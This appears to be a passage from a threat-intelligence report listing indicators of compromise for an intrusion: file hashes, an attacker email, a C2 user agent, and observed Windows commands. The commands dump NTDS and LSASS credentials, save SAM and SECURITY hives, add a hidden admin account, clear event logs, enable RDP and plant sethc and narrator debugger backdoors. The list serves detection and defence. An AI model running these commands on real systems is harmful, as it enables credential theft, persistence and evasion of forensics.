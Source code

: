 | 2fc5bf9edcfa19d48e235315e8f571638c99a1220be867e24f3965328fe94a03 | File Hash (SHA256)  |
| 542c9da985633d027317e9a226ee70b4f0742dcbc59dfd2d4e59977bb870058d | File Hash (SHA256)  |
| 61176a5756c7b953bc31e5a53580d640629980a344aa5ff147a20fb7d770b610 | File Hash (SHA256)  |
| 753952aed395ea845c52e3037f19738cfc9a415070515de277e1a1baeff20647 | File Hash (SHA256)  |
| 8df89eef51cdf43b2a992ade6ad998b267ebb5e61305aeb765e4232e66eaf79a | File Hash (SHA256)  |
| 8e5733484982d0833abbd9c73a05a667ec2d9d005bbf517b1c8cd4b1daf57190 | File Hash  (SHA256) |
| 99be6e7e31f0a1d7eebd1e45ac3b9398384c1f0fa594565137abb14dc28c8a7f | File Hash (SHA256)  |
| bb62138d173de997b36e9b07c20b2ca13ea15e9e6cd75ea0e8162e0d3ded83b7 | File Hash (SHA256)  |
| eb3452c64970f805f1448b78cd3c05d851d758421896edd5dfbe68e08e783d18 | File Hash (SHA256)  |

### Email Addresses
| **IOC Value**                 | **IOC Type** |
|-------------------------------|--------------|
| costacancordia@protonmail.com | Email        |

### C2C Communication User Agents
| **IOC Value**                                                                                                                                            | **IOC Type** |
|----------------------------------------------------------------------------------------------------------------------------------------------------------|--------------|
| Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36 Edg/99.0.1150.36 Trailer/95.3.1132.33 | User Agent   |

### Command Syntax
| **IOC Value**                                                                                                                                          | **IOC Type**    |
|--------------------------------------------------------------------------------------------------------------------------------------------------------|-----------------|
| `powershell ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\users\public' q q`                                                                          | Windows Command |
| `C:\Windows\system32\net user z Lh199211\* /add`                                                                                                       | Windows Command |
| `C:\Windows\system32\net localgroup administrators z /add  `                                                                                           | Windows Command |
| `reg save hklm\system system `                                                                                                                         | Windows Command |
| `reg save hklm\sam sam    `                                                                                                                            | Windows Command |
| `reg save HKLM\security sec `                                                                                                                          | Windows Command |
| `tasklist`                                                                                                                                             | Windows Command |
| `rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump [LSASS\_PID] C:\windows\temp\lsass.dmp full`                                                   | Windows Command |
| `wevtutil.exe el`                                                                                                                                      | Windows Command |
| `wevtutil.exe cl [LOGNAME]`                                                                                                                            | Windows Command |
| `net user z /delete `                                                                                                                                  | Windows Command |
| `netsh advfirewall firewall set rule group=remote desktop new enable=Yes   `                                                                           | Windows Command |
| `C:\Windows\System32\msiexec.exe /i C:\Users\[USERNAME]\Pictures\LogMeIn.msi `                                                                         | Windows Command |
| `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe /v Debugger /t REG\_SZ /d C:\windows\system32\cmd.exe /f` | Windows Command |
| `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe /v Debugger /t REG\_SZ /d C:\windows\system32\cmd.exe /f `   | Windows Command |
